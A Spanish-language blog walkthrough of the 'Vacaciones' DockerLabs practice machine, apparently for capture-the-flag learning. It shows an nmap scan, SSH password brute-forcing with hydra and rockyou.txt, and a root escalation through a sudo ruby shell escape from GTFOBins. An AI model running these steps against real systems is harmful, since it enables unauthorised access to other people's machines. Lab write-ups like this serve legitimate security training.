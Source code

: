 ```yaml
---
layout: post
title: "Vacaciones"
date: 2024-06-29 12:20:23
category: sample
vm: dockerlabs
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Vacaciones </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Muy Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/dockerlabs/vacaciones/host.png){:.margin}

**1\.** Escaneo los puertos y servicios de la maquina.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/vacaciones/nmap.png){:.margin}

**2\.** En la web visualmente no tenemos nada, pero si vemos la fuente encontramos posibles usuarios.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/vacaciones/80.png){:.margin}
![img](/notas/public/img/dockerlabs/vacaciones/80code.png){:.margin}

**3\.** Haciendo fuerza bruta al ssh.

`echo -e "camilo\njuan" > users.txt`

`hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`

![img](/notas/public/img/dockerlabs/vacaciones/hydra.png){:.margin}

**4\.** Accedo por ssh con estas credenciales.

`ssh camilo@172.17.0.2`

![img](/notas/public/img/dockerlabs/vacaciones/sshcamilo.png){:.margin}

**5\.** Busco el dichoso correo que nos dejo juan.

`find / -name mail 2>/dev/null | xargs find`

`cat /var/mail/camilo/correo.txt`

![img](/notas/public/img/dockerlabs/vacaciones/find.png){:.margin}

**6\.** Migro al usuario juan.

`su juan`

![img](/notas/public/img/dockerlabs/vacaciones/sujuan.png){:.margin}

**7\.** Encuentro un binario que puedo ejecutarlo como root.

`sudo -l`

![img](/notas/public/img/dockerlabs/vacaciones/sudol.png){:.margin}

**8\.** Escalando privilegios, Busco indicaciones del binario en [gtfobins](https://gtfobins.github.io/gtfobins/ruby/#sudo).

`sudo ruby -e 'exec "/bin/bash"'`

![img](/notas/public/img/dockerlabs/vacaciones/root.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>